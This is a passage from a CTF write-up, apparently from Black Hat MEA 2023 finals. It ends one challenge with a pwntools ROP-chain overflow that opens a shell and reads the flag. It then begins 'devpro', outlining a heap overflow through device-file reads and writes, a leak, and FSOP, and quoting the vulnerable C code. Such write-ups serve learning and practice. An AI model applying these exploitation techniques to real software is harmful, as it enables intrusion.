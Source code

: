 ```python
p.sendline(b'A'*0x2120 + rop.chain())
p.sendline(b'cat /flag*')

p.interactive()
```

## **2. devpro**

**[0x01] Summary**

- Heap BOF through Devices(`/dev/urandom`, `/dev/null`, `/dev/zero`) Read/Write
- leak with `/dev/null`, make arbitrary bytes BOF with `/dev/zero`
- do FSOP (House of Apple 2)

[devpro.zip](https://github.com/brwook/binary/raw/main/2023-Blackhat-MEA-Final/devpro.zip)

**[0x02] Solution**

There are three devices(`/dev/urandom`, `/dev/null`, `/dev/zero`). we can allocate any-size heap chunk and open/close/read/write to those device using the heap chunk as buffer.

```c
void alloc_buffer() {
  g_size = getint("Size: ");
  if (g_size > 0x400) {
    puts("[-] Size too big");
    return;
  }

  if (g_buf)
    free(g_buf);
  g_buf = (unsigned char*)malloc(g_size);
  memset(g_buf, 0, g_size);
}
```

We can allocate any size buffer and it is initialized with zero. Also, we can set any-size `g_size` can be larger size than 0x400.

```c
void read_device() {
  if (!g_dev) {
    puts("[-] No device opened");
    return;
  } else if (!g_buf) {
    puts("[-] No buffer allocated");
    return;
  }

  fread(g_buf, 1, g_size, g_dev);
  for (size_t i = 0; i < g_size; i++)
    printf("%02x ", g_buf[i]);
  putchar('\n');
  puts("[+] OK");
}
```
